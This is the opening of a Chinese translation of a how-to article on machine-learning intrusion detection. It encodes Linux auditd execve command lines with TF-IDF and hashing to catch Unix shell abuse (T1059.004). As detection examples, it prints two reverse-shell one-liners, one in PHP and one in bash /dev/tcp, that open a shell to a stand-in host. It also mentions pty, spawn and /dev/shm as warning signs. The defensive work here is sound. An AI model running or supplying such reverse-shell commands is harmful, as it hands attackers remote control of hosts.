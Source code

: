 # Shell 语言处理:使用 TF-IDF 和哈希编码对 Linux 审计日志进行入侵检测

> 原文：<https://towardsdatascience.com/shell-language-processing-machine-learning-for-security-intrusion-detection-with-linux-auditd-73d7196995c7>

## 本文是一篇*操作指南*，为希望应用机器学习技术满足网络安全需求的安全专业人士和数据科学家提供代码示例。

![](img/9446b1c41e5784b2a8b54a128bc6b901.png)

图一。Kibana 中已审核事件的屏幕。图片由作者拍摄。

# 介绍

机器学习(ML)算法在行业、教程和课程中的适用性严重偏向于构建 ML 模型本身。然而，从我们的角度来看，数据**预处理**步骤(即，将文本系统日志转换为从数据中获取有价值见解的数字数组)对于试图将数据武器化的安全工程师和分析师来说，具有最大的心理和认知差距。

有许多日志收集中心缺乏定性分析，无法从获取的数据中推断出必要的可见性。收集数 TB 的日志通常只是为了执行基本的分析(例如，基于签名的基本规则)，并且被认为是以一种*临时*反应式的方式使用—如果需要调查的话。一个没有足够分析注意力的有价值数据的例子——audited**的`execve` syscall 包含上面图 1 中显示的 Unix shell 命令行。**

通过在这些数据的基础上定义人工启发，可以获得许多有价值的推论。当`pty` 和`spawn`被用在与`/dev/shm`相同的*执行*调用或位置的参数中时，你一定要对出现的情况做出反应。然而，在许多情况下，定义一个在特定技术中易于变化的健壮的人工启发式方法是没有希望的。

考虑这两个反向 shell 命令:

```
php -r '$sock=fsockopen("example.com",4242);system("/bin/sh -i <&3 >&3 2>&3");'bash -i >& /dev/tcp/example.com/4242 0>&1
```

虽然我们在这两个定义中看到了一个共同的模式，但是检测其中一个的良好的基于规则的逻辑需要十几个带有正则表达式匹配的*和/或*语句。即使这样，威胁参与者也可以通过修改和引入中间变量名或重新分配文件描述符来逃避大多数手动方法。

在这篇文章中，我们提出了一个思维平面，其中使用**机器学习(ML)来定义您的数据基线，作为基于规则的方法的扩展**。ML 允许决策边界的构建比手动试探法和直接从数据推断更加通用。我们将:

*   使用`auditd` execve 日志来检测 [T1059.004](https://attack.mitre.org/techniques/T1059/004/) (命令和脚本解释器:Unix Shell)——这是滥用受损 Unix 主机的最常见方式；
*   讨论 Unix shell 命令的标记化和编码技术(TF-IDF &“散列技巧”)；
*   使用`scikit-learn`和`nltk`库将命令编码为向量；
*   利用`scikit-learn`和`xgboost`库创建机器学习模型并训练监督分类器；
*   讨论允许评估 ML 模型性能的度量标准；
